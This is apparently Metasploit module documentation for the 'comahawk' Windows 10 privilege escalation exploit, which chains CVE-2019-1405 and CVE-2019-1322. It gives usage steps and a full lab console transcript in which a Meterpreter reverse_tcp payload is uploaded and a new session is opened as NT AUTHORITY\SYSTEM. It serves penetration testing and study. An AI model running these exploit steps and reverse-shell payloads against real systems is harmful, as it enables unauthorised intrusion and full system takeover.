 ## Introduction

This leverages two vulnerabilities on specific builds of Windows 10 to
move from an authenticated user of any level to NT AUTHORITY\LOCAL SERVICE
and then from NT AUTHORITY\LOCAL SERVICE to NT AUTHORITY\SYSTEM.
The first (CVE-2019-1405) uses the UPnP Device Host Service to elevate to
NT AUTHORITY\LOCAL SERVICE
The second (CVE-2019-1322) leverages the Update Orchestrator Service to
elevate from NT AUTHORITY\LOCAL SERVICE to NT AUTHORITY\SYSTEM.

The exploit works by creating a new service, so the exploit may take
up to minute on test systems, and may take longer in the wild.  Adjusting
the exploit_timeout value in the datastore.

## Usage

1. Create a session on the target system under the context of an authenticated user.
2. Begin interacting with the module: `use exploit/windows/local/comahawk`.
3. Set the `PAYLOAD` and configure it correctly.
4. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
5. Make sure that the `SESSION` value is set to the existing session identifier.
6. Invoke the module: `run`.

## Scenario

### Windows 10 (10.0 Build 17134) x64

```
[*] Meterpreter session 1 opened (192.168.135.168:5555 -> 192.168.132.125:49674) at 2019-12-11 18:33:09 -0600

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-D1E425Q\msfuser
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/windows/local/comahawk 
msf5 exploit(windows/local/comahawk) > set versbose true
versbose => true
msf5 exploit(windows/local/comahawk) > set session 1
session => 1
msf5 exploit(windows/local/comahawk) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/comahawk) > set lhost 192.168.135.168
lhost => 192.168.135.168
msf5 exploit(windows/local/comahawk) > show options

Module options (exploit/windows/local/comahawk):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   EXECUTE_DELAY    3                yes       The number of seconds to delay between file upload and exploit launch
   EXPLOIT_NAME                      no        The filename to use for the exploit binary (%RAND% by default).
   EXPLOIT_TIMEOUT  60               yes       The number of seconds to wait for exploit to finish running
   PATH                              no        Path to write binaries if (%TEMP% by default).
   PAYLOAD_NAME                      no        The filename for the payload to be used on the target host if (%RAND%.exe by default).
   SESSION          1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.168  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf5 exploit(windows/local/comahawk) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] Attempting to PrivEsc on DESKTOP-D1E425Q via session ID: 1
[*] Exploit uploaded on DESKTOP-D1E425Q to C:\Users\msfuser\AppData\Local\Temp\TcpHnwmv.exe
[*] Payload (7168 bytes) uploaded on DESKTOP-D1E425Q to C:\Users\msfuser\AppData\Local\Temp\EubQLoJJbPMX.exe
[*] It may take a moment after the session is established for the exploit to exit safely.
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 2 opened (192.168.135.168:4444 -> 192.168.132.125:49679) at 2019-12-11 18:35:35 -0600

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 

```
